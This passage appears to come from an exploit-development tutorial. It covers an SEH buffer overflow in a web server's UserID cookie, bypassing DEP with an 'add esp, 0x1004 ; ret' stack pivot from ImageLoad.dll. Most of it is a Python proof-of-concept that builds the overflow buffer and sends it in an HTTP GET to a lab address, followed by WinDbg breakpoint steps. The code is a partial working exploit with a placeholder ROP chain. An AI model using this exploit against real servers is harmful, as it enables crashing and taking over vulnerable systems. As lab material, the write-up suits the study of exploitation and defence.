 The offset to SEH is `2563` bytes. Instead of using a `pop <reg>` `pop <reg>` `ret` sequence, as is normally done on a 32-bit SEH exploit, an `add esp, <bytes>` instruction is used. This will take the stack, where it is currently not controlled by us, and change the address to an address on the stack that we control - and then return into it.

```python
import sys
import os
import socket
import struct

# 4063 byte SEH offset
# Stack pivot lands at padding buffer to SEH at offset 2563
crash = "\x90" * 2563

# Stack pivot lands here
# Beginning ROP chain
crash += struct.pack('<L', 0x90909090)

# 4063 total offset to SEH
crash += "\x41" * (4063-len(crash))

# SEH only - no nSEH because of DEP
# Stack pivot to return to buffer
crash += struct.pack('<L', 0x10022869)    # add esp, 0x1004 ; ret: ImageLoad.dll (non-ASLR enabled module)

# 5000 total bytes for crash
crash += "\x41" * (5000-len(crash))

# Replicating HTTP request to interact with the server
# UserID contains the vulnerability
http_request = "GET /changeuser.ghp HTTP/1.1\r\n"
http_request += "Host: 172.16.55.140\r\n"
http_request += "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0\r\n"
http_request += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
http_request += "Accept-Language: en-US,en;q=0.5\r\n"
http_request += "Accept-Encoding: gzip, deflate\r\n"
http_request += "Referer: http://172.16.55.140/\r\n"
http_request += "Cookie: SESSIONID=9349; UserID=" + crash + "; PassWD=;\r\n"
http_request += "Connection: Close\r\n"
http_request += "Upgrade-Insecure-Requests: 1\r\n"

print "[+] Sending exploit..."
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.55.130", 80))
s.send(http_request)
s.close()
```

Set a breakpoint on the stack pivot of `add esp, 0x1004 ; ret` with the WinDbg command `bp 0x10022869`. After sending the exploit POC - we will need to view the contents of the exception handler with the WinDbg command `!exchain`.
